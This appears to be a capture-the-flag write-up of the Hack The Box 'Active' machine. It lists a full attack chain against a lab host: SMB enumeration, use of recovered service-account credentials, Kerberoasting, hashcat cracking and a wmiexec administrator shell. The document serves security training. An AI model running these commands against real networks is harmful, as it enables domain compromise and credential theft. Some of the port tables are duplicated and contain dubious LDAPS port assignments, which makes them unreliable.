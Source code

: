 # ACTIVE
--------------------------------------------------------------------
## Topics will be covered
- SMB enumeration techniques
- Group Policy Preferences enumeration and exploitation
- Identification and exploitation of Kerberoastable accounts

##  Enumeration and Exploiting tools:
```bash
    - Nmap
        ○ nmap -Pn -sV -sC  10.10.10.100
    - SMB
        ○ smbclient -L //10.10.10.100
        ○ smbmap -H 10.10.10.100
        ○ smbclient //10.10.10.100/Replication
    - Foothold (First successful breach/Limited access/Starting point)
        ○ Group Policy Preferences
    - Authenticated Enumeration
        ○ smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
        ○ smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
    - Privilege Escalation
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName
        ○ GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
    - Kerberoasting
        ○ ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(! (useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
        ○ GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
    - Cracking of Kerberos TGS Hash 
        ○ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force --potfile-disable 
    - Shell as Primary Domain Admin 
wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
```
----------------------------------------------------------------------------------------------------------------------------------
### Namp
![alt text](image.png)
![alt text](image-1.png)
- 1. Understanding the SMB share ports 
| Port          | Protocol                                   |Service          | Description                                   |
|---------------|-------------------------------------------|---------------|-------------------------------------------|
|445         | SMB (Server Message Block)                | smb           | File sharing and printer sharing over a network |
|139         | NetBIOS Session Service                    | netbios-ssn  | Provides session services for NetBIOS over TCP/IP |
|135         | Remote Procedure Call (RPC)                | msrpc         | Used for remote procedure calls and DCOM services |
|137         | NetBIOS Name Service                      | netbios-ns    | Provides name services for NetBIOS over TCP/IP |
|138         | NetBIOS Datagram Service                  | netbios-dgm   | Provides datagram services for NetBIOS over UDP |
- Understanding the LDAP ports
Understanding the LDAP ports
| Port          | Protocol                                   |Service          | Description                                   |
|389         | Lightweight Directory Access Protocol (LDAP) | ldap          | Used for accessing and maintaining distributed directory information services |
|636         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3268        | Global Catalog (LDAP)                      | gc            | Provides a read-only replica of the Active Directory database for faster searches |
|3269        | Global Catalog over SSL (LDAPS)            | gc-ssl        | Secure version of the Global Catalog using SSL/TLS encryption |
- 2. Microsoft Active Directory-Specific Ports
| Port          | Protocol                                   |Service          | Description                                   |
|--------------|-------------------------------------------|---------------|-------------------------------------------|
|88           | Kerberos                                   | kerberos      | Authentication protocol used in Active Directory | 
|445         | SMB (Server Message Block)                | smb           | File sharing and printer sharing over a network |
|464         | Kerberos Password Change                   | kpasswd       | Used for changing Kerberos passwords |
|593         | Remote Procedure Call (RPC) over HTTP      | rpc-http      | Used for remote procedure calls over HTTP |
|636         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3268        | Global Catalog (LDAP)                      | gc            | Provides a read-only replica of the Active Directory database for faster searches |
|3269        | Global Catalog over SSL (LDAPS)            | gc-ssl        | Secure version of the Global Catalog using SSL/TLS encryption |
- 3. Additional LDAP-Related Ports
| Port          | Protocol                                   |Service          | Description                                   |
|--------------|-------------------------------------------|---------------|-------------------------------------------|
|689         | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|1758      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|2003      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|2004      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3535      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
|3536      | LDAP over SSL (LDAPS)                      | ldaps         | Secure version of LDAP using SSL/TLS encryption |
- 4.  Ports Used in LDAP Attacks
- When performing penetration testing or security assessments, these ports are critical:

|Attack Type | Ports Used    |
|--------------|-------------------------------------------|
|LDAP Passwords Spraying| 389, 636 |
|LDAP Anonymous Binds | 389|
|LDAP Injection | 389, 636|
|Kerberoasting (via LDAP) | 88, 389|
|AD CS (Certificate Services) Attacks| 389, 636, 88|

- Now lets come back to the nmap results and found smb ports are availible(Port 445 is open)
- But guest user is not available but smb signing is happening
![alt text](image-2.png)
![alt text](image-3.png)
- So lets try smbclient with available shares and login with anonymous this time
```bash
smbclient -L //10.129.89.194 or \\active.htb
```
![alt text](image-4.png)
- Since anonymous login is allowed, we can view a list of available shares. 
- Let's now use smbmap to identify which of these shares are accessible with anonymous credentials.
![alt text](image-5.png)